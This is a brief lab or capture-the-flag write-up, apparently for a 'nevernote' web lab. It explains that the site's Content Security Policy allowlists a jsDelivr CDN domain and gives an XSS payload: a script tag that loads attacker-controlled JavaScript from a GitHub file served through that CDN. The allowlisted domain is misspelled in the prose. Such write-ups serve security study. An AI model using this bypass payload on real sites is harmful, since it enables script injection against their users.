 # Context

The lab uses CSP to mitigate XSS. But the lab allowlists the following domain: `cdn.jsdeliver.net*`. This means we can inject JS onto the web page by the following XSS payload:

```html
<script src="https://cdn.jsdelivr.net/gh/kevin-fagan/csp-bypass-payloads@main/csp-bypass-lab-nevernote.js"></script>
```
